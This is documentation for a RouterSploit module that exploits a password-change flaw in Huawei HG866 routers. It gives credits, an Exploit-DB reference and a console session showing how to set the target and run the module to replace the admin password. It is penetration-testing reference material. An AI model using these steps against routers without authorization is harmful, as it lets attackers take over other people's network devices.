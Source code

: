 # Huawei HG866 Password Cahnge

## Description
Module exploits password change vulnerability in Huawei HG866 devices.If the target is vulnerable it allows to change administration password.

## Authors
* hkm # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/19185/](https://www.exploit-db.com/exploits/19185/)

## Vulnerable devices
* Huawei HG866

## Usage
```
rsf > use exploits/huawei/hg866_password_change
rsf (Huawei HG866 Password Cahnge) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   password     routersploit         Password value to change admin account with


rsf (Huawei HG866 Password Cahnge) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Huawei HG866 Password Cahnge) > run
[*] Running module...
```
